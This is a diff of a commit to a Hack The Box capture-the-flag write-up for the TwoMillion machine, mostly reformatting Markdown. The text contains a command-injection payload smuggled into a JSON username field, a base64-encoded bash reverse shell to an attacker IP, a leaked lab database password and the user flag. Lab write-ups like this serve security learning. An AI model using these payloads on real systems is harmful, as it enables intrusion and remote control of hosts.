

Before and after one commit to MedhatHassan/HTB-labs, a Markdown page: machines/TwoMillion/Findings.md, the part around the change printed below. Rendered like a GitHub page; blank space fills up the shorter version.

````diff
--- a/machines/TwoMillion/Findings.md
+++ b/machines/TwoMillion/Findings.md
@@ -152,11 +160,15 @@ curl -X PUT http://2million.htb/api/v1/admin/settings/update --cookie "PHPSESSID
 
-if you now try curl http://2million.htb/api/v1/admin/auth --cookie "PHPSESSID=0u8rjqr7pid9s7m2eaoavcjecu" | jq
+if you now try `curl http://2million.htb/api/v1/admin/auth --cookie "PHPSESSID=0u8rjqr7pid9s7m2eaoavcjecu" | jq`
 
+```
 curl -X POST http://2million.htb/api/v1/admin/vpn/generate --cookie "PHPSESSID=0u8rjqr7pid9s7m2eaoavcjecu" --header "Content-Type: application/json" --data '{"username":"user"}'
+```
+```
+curl -X POST http://2million.htb/api/v1/admin/vpn/generate --cookie "PHPSESSID=0u8rjqr7pid9s7m2eaoavcjecu" --header "Content-Type: application/json" --data '{"username":"user;id;"}'
+```
 
-curl -X POST http://2million.htb/api/v1/admin/vpn/generate --cookie "PHPSESSID=0u8rjqr7pid9s7m2eaoavcjecu" --header "Content-Type: application/json" --data '{"username":"user;id;"}'
+`echo -n "bash -i >& /dev/tcp/10.10.14.48/1234 0>&1" | base64`
 
-echo -n "bash -i >& /dev/tcp/10.10.14.48/1234 0>&1" | base64
 YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC40OC8xMjM0IDA+JjE=
 
 DB_HOST=127.0.0.1
@@ -164,7 +176,7 @@ DB_DATABASE=htb_prod
 DB_USERNAME=admin
 DB_PASSWORD=SuperDuperPass123
 
-We find admin password
+We find **admin password **
 ssh to admin with the password
 
 user flag => a2624f25c7983f33de70b88f7b290710
````
Also changed, not shown: other parts of machines/TwoMillion/Findings.md (+19 -11 lines).
